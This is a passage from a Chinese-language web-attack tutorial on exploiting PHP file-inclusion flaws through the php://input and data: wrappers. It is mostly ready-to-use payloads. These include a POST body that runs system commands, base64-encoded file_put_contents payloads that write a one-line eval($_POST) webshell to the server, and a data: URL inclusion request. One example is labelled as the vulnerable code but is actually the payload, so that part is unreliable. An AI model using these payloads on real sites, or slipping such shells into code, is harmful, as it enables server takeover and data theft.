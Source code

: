 2）使用 php://input，将执行代码通过在 POST data 中提交。形成命令执行

```
<?php system('ipconfig');?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcvia6LwhCwNGJS8YppnelaAZCVmjZwrvNxRtJESFh4AgCCvS4eJjmmNU4A/640?wx_fmt=png)  

**实例二：php://input 利用文件包含写入 shell**

1）目标网站存在包含漏洞

```
<?php @include($\_GET\["file"\])?>
```

```
#post方式提交
<?php 
echo file\_put\_contents("test.php",base64\_decode("PD9waHAgZXZhbCgkX1BPU1RbJ2NjJ10pPz4="));
?>
```

```
<?php 
$data = file\_get\_contents('php://input'); 
eval($data); 
?>
```

执行成功会在当前目录下生成一句话 shell，可直接连接

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcvia2V458kKL8qCy7QKQ02YWwbdLRlWWAzIMQcMoU5thcYbe1GADSfAl4Q/640?wx_fmt=png)  

**实例三：php://input 协议直接写入 shell**

1）含有 php://input 的代码漏洞文件：

```
echo file\_put\_contents("ceshi.php",base64\_decode("PD9waHAgZXZhbCgkX1BPU1RbJ2NjJ10pPz4="));
```

POST 直接传参执行 php 代码：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviaO7wtHcewfZd3bJdh4LaNuiceeAe9I8jEckRDRQo53TaCSD3SaDkg6XQ/640?wx_fmt=png)

同理，这里在 post 数据提交生成 shell 的代码，会在同级目录下生成 shell：

```
#文件包含代码：
<?php include $\_GET\['file'\]?>   
访问执行：
127.0.0.1/1.php?file=data:text/plain;base64,PD9waHAKcGhwaW5mbygpOwo/Pg==
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviasKxh40I9V3LbhFYdhpq28GRZq8Jk9ibU8zicVSZz29g2W56A8E805jbw/640?wx_fmt=png)

### **②data:URL 代码执行**  
